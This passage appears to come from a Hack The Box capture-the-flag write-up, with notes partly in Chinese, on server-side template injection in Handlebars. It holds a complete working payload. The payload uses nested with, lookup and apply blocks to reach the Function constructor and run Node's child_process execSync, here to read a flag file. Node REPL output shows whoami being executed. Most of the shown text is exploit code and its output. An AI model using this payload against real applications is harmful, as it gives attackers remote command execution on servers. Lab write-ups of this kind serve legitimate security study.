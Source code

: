 ```jsx
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```

![Untitled](HTB%20writeu%20673ee/Untitled%2049.png)

```
We will contact you at:                e       2       [object Object]                function Function() { [native code] }         2         [object Object]                                 root
```

在 template engine 的場境不需要加上 `toString()` 就能正常顯示內容

![Untitled](HTB%20writeu%20673ee/Untitled%2050.png)

```
> require('child_process').execSync("whoami")
<Buffer 75 73 65 72 0a>
> require('child_process').execSync("whoami").toString()
'user\n'
>
```

```jsx
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process.mainModule.require('child_process').execSync('cat ~/flag.txt');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```